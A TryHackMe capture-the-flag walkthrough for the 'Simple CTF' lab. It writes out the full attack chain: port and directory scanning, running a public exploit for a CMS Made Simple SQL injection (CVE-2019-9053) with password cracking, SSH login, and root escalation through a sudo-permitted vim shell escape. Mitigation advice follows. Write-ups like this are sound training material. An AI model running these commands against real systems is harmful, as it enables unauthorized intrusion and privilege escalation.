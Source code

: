 # Simple CTF – TryHackMe VAPT Walkthrough

**Prepared by:** Nishanth Antony  
**Date:** August 17, 2025  
**Difficulty:**  Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** [TryHackMe](https://tryhackme.com)  

---

## 🔍 1. Reconnaissance

**Objective:** Identify open ports, running services, and potential entry points.

### Nmap Scan

```bash
nmap -p- --min-rate=1000 -sV <target_ip> -T4
```

**Result:**

```
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

➡️ **Observation:** FTP, HTTP, and SSH (non-standard port `2222`) are open.

---

## 🌐 2. Web Enumeration

### Directory Scan

```bash
gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
```

**Key Findings:**

```
/index.html  (200 OK)
/robots.txt  (200 OK)
/simple/     (301 Redirect → http://<target_ip>/simple/)
```

➡️ `/simple/` reveals a **CMS Made Simple 2.2.8** instance.

### Vulnerability Research

```bash
searchsploit -s "cms made simple 2.2"
```

**Finding:**

* **CVE-2019-9053** → SQL Injection vulnerability in versions `<2.2.10`.

---

## 💥 3. Exploitation

### Step 1 – SQL Injection Exploit

```bash
python3 46635-py3.py -u http://<target_ip>/simple/ --crack \
  -w /usr/share/wordlists/passwords/rockyou.txt
```

**Result:**

```
[+] Username: mitch
[+] Email: admin@admin.com
[+] Password cracked: secret
```

🔑 Credentials obtained:

* **User:** mitch
* **Password:** secret

---

### Step 2 – SSH Access

```bash
ssh mitch@<target_ip> -p 2222
```

**Proof:**

```bash
$ cat user.txt
G00d j0b, keep up!
```

---

## 🚀 4. Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

**Result:**

```
(root) NOPASSWD: /usr/bin/vim
```

### Root Shell via VIM

```bash
sudo vim -c ':!/bin/bash'
```

**Proof:**

```bash
# cat /root/root.txt
W3ll d0n3. You made it!
```

---

## 🛡️ 5. Mitigation Recommendations

* **Web Security:** Patch CMS Made Simple >2.2.10, sanitize all input, and restrict sensitive files (`robots.txt`).
* **Passwords:** Use strong, non-dictionary passwords and secure hashing (bcrypt/argon2).
* **System Hardening:** Remove dangerous `NOPASSWD` sudo rules (especially for editors like vim).
* **Monitoring:** Enable intrusion detection, monitor brute-force attempts, and audit privilege escalations.

---

## 📚 6. Lessons Learned

* Outdated CMS platforms pose critical risks.
* SQL injection can expose entire credential databases.
* Misconfigured `sudo` rules can quickly lead to root.
* Small oversights (e.g., weak hashing + bad sudo configs) compound into full compromise.

---

**Skills Demonstrated**

* Network & Web Enumeration → `nmap`, `gobuster`
* SQL Injection Exploitation → CVE-2019-9053, hash cracking (`john`)
* Post-Exploitation → SSH login, privilege escalation
* Secure Documentation → Structured reporting with PoC evidence

---
